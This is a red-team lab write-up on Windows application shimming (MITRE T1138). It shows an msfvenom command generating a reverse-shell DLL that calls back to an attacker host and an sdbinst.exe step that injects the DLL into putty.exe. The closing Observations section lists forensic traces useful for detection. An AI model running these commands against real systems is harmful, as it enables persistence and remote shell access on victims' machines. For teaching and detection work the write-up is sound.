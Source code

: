 ```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# T1138: Application Shimming

## Execution

In this lab, [Compatibility Administrator](https://www.microsoft.com/en-us/download/details.aspx?id=7352) will be abused to inject a malicious payload into putty.exe process, which will connect back to our attacking machine.

Generating malicious payload stored in a 32-bit DLL:

{% code title="attacker@kali" %}
```csharp
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil32.dll
```
{% endcode %}

Creating a shim fix for putty.exe - this is the "fix" that will get our malicious DLL injected into putty.exe when it is launched next time:

![](../../.gitbook/assets/shim-new-fix.png)

![](../../.gitbook/assets/shim-injectdll.png)

![](../../.gitbook/assets/shim-cmdline.png)

Installing the shim fixes database we created earlier onto the victim machine using a native windows utility:

{% code title="attacker@victim" %}
```csharp
sdbinst.exe C:\experiments\mantvydas.sdb
```
{% endcode %}

Launching putty.exe on the victim machine, sends us our reverse shell - DLL injection worked:

![](../../.gitbook/assets/shim-shell.png)

## Observations

We can see putty.exe has loaded the evil32.dll:

![](../../.gitbook/assets/putty-evil32.png)

Note, however, immediately after executing the payload, evil32.dll cannot be observed in the loaded system DLLs:

![](../../.gitbook/assets/shim-rundll32.png)

The sdbinst.exe leaves the following behind:

* fix name "mantvydas" \(we set it in the first step of the shim fix creation\) in the "Installed applications" list
* the fix db itself gets copied over to `%WINDIR%\AppPatch\custom OR %WINDIR%\AppPatch\AppPatch64\Custom`
* registry key pointing to the custom fixes db gets added

All of the above can be seen here:

![](../../.gitbook/assets/shim-remnants.png)

Note that it is possible to install the shim fixes manually without leaving the trace in the "Installed applications" list, however the fixes db will still have to be written to the disk and the registry will have to be modified:

![](../../.gitbook/assets/shim-sysmon.png)

Correlate it with other events exhibited by the application that has been fixed and you may see something you might want to investigate further:

![](../../.gitbook/assets/shim-connection.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1138" caption="" %}

{% embed url="https://blacksunhackers.club/2016/08/post-exploitation-persistence-with-application-shims-intro/" caption="" %}

